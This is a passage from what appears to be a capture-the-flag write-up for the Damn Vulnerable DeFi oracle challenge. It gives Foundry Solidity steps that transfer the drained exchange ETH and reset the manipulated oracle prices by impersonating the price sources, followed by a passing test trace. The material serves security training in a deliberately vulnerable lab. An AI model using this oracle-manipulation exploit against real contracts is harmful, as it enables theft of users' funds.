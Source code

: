 6. Transfer the drained funds:

```solidity
vm.startPrank(player);
// ...
payable(recovery).transfer(EXCHANGE_INITIAL_ETH_BALANCE);
vm.stopPrank();
```

7. Reset the oracle price:

```solidity
vm.startPrank(source1);
oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
vm.stopPrank();

vm.startPrank(source2);
oracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
vm.stopPrank();
```

### Running Result

```
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    ├─ [0] VM::assertEq(999000000000000000000 [9.99e20], 999000000000000000000 [9.99e20]) [staticcall]
    │   └─ ← [Return]
    ├─ [679] DamnValuableNFT::balanceOf(player: [0x44E97aF4418b7a17AABD8090bEA0A471a366305C]) [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::assertEq(0, 0) [staticcall]
    │   └─ ← [Return]
    ├─ [5281] TrustfulOracle::getMedianPrice("DVNFT") [staticcall]
    │   └─ ← [Return] 999000000000000000000 [9.99e20]
    ├─ [0] VM::assertEq(999000000000000000000 [9.99e20], 999000000000000000000 [9.99e20]) [staticcall]
    │   └─ ← [Return]
    └─ ← [Stop]
```

